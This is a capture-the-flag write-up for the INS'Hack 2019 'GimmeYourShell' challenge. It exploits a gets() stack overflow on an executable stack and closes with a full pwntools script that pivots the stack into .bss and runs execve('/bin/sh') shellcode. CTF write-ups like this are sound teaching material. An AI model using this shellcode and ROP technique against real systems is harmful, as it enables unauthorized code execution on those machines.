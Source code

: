 

# GimmeYourShell

INS'Hack CTF 2019


This is an easy-level Pwning problem for INS Hack 2019.

### Problem description


"I try to find his secret. Can you answer his question and get his secret ? I can handle it.

He is waiting for you at: `ssh -i <your_keyfile> -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr` To find your keyfile, look into your profile on this website."


### Reconnaissance

This problem is extremely vulnerable. Checksec shows:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   weak
```

The stack is executable, which explains why we didn't get a `libc` file with this binary.

There's a `vuln` function that is basically extremely vulnerable. Here's the decompiled code from Ghidra:

```
void vuln(void)

{
  char local_18 [16];

  puts("Ok, now give me the name of our president.");
  fflush((FILE *)0x0);
  gets(local_18);
  puts("Oh I remember !");
  fflush((FILE *)0x0);
  return;
}
```
So, with `gets` I can read an arbitrary number of bytes into the `local_18` buffer and overwrite the return address. I want to return to the stack and execute some shell code. Let's take a look at the stack when we read in some characters:

![./gimmeyourshellstack.png](./gimmeyourshellstack.png)

Right above the return address from `vuln` is a pointer to a stack address. So if I pop `%rdi` and return to `puts`, I can leak that stack address. Then I can return to the `gets` instruction and read in code that returns straight into my buffer. Great! Let me make sure I have some 64-bit shell code working (this is a 64-bit binary). The shell code can be as long as I need, because I can just add a bunch of jumps to `ret` instructions to the stack if necessary so that I don't overwrite anything important in my ROP chain.

Next, I noticed that the code has no reference to `pop rdi` anywhere in its code that I can access via ROP. After thinking some more, I considered that a better approach might be to place my shell code on the stack, then overwrite the last byte of a stack pointer using `gets` in order to redirect execution back into my shell code. I think I'll try that.

Okay, looking at the stack when I call `gets`:
```
pwndbg> x /40xg $rsp
0x7fff4375cf70:	0x4141414141414141	0x4141414141414141
0x7fff4375cf80:	0x00007fff4375cf00	0x0000000000000000
0x7fff4375d000:	0x2f50bd9cd0ac0c50	0x2ea607d499520c50
0x7fff4375d010:	0x0000000000000000	0x0000000000000000
0x7fff4375d020:	0x0000000000000000	0x0000000000000000
0x7fff4375d030:	0x0000000000000000	0x0000000000000000
0x7fff4375d040:	0x0000000000000000	0x0000000000000000
0x7fff4375d050:	0x0000000000000000	0x0000000000400470
0x7fff4375d060:	0x00007fff4375d080	0x0000000000400499
0x7fff4375d070:	0x00007fff4375d078	0x000000000000001c
```

`0x7fff4375d060` seems like a good target: I can just overwrite the last byte with a null byte and jump back into my own buffer. I'm not sure it will work on the server, but it's worth a shot...

That approach is a little unstable, but I think I found something that does work:
`0x0000000000400654 : add rsp, 0x38 ; ret`

That lets me put my code on the stack and then jump over it. In the above example, if I put my exploit at 0x7fff4375d000, move `%rsp` up `0x38` bytes at `0x7fff4375cff8`, and then overwrite the last byte of `0x7fff4375d060` with a null byte, I'll return to my exploit. That should work 1 out of 16 times, so I can make it work with a brute force. Let's do it! As I'm checking this with `gdb`, I just want to remember that I want `%rsp` to end in 70 right after the read.

Here's the stack now:
```
pwndbg> x /40xg $rsp
0x7ffd749a1e70:	0x4141414141414141	0x4141414141414141
0x7ffd749a1e80:	0x4141414141414141	0x0000000000400417
0x7ffd749a1e90:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ea0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1eb0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ec0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ed0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ee0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ef0:	0x0000000000400417	0x0000000000400654
0x7ffd749a1f00:	0x622f2fbb48d23148	0xebc14868732f6e69
0x7ffd749a1f10:	0x485750e789485308	0x9090050f3bb0e689
0x7ffd749a1f20:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f30:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f40:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f50:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f60:	0x00007ffd749a1f00	0x0000000000400499
0x7ffd749a1f70:	0x00007ffd749a1f78	0x000000000000001c
```

That exploit works locally, but apparently not on the server. Well, maybe the stack is not set up the same way on the server. What I want to do is overwrite the first byte of the saved `%rbp` pointer on the stack right after the return address `0x400470`. So, I can figure out how many writes on the stack it will take me to get up to that return address.

Frustratingly, a few hours of efforts to overwrite just the right byte of a stack address on the server did not pay off. The stack was set up just a little differently. Then I considered popping a `.bss` address as `rbp` and returning to the `gets` call a second time, then returning to the `.bss` section to the exact place where I knew my buffer would be located.

And that worked!

![./solved.png](./solved.png)

Here's the exploit:
```
from pwn import *
from time import sleep

DELAY = 0.1
p = process('/bin/sh')
p.send('ssh user@gimme-your-shell.ctf.insecurity-insa.fr -i ~/.ssh/id_inshack -p 2225\n')

shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
shellcode += "\x48\xc7\xc0\x70\x04\x40\x00\xff\xe0\x90" # mov rax, 0x00400470; jmp rax


RET_ADDR = 0x400417
ADD_56_TO_RSP_ADDR = 0x400654
POPRBP_ADDR = 0x400522 # pop rbp; ret

p.recvuntil("president.")

payload1 = "A"*24
payload1 += p64(POPRBP_ADDR)
payload1 += p64(0x600b10) # bss section
payload1 += p64(0x400570) # gets into rbp-0x10
payload1 += p64(0x600b00)
payload1 += "\n"

payload2 = p64(0x0)*2
payload2 += p64 (0x600b10) # new rbp when leave is called
payload2 += p64(0x600b20) # ret to shellcode
payload2 += shellcode
payload2 += "\x90"*16
payload2 += "\n"


p.send(payload1)
sleep(DELAY)
p.send(payload2)
p.interactive()
```
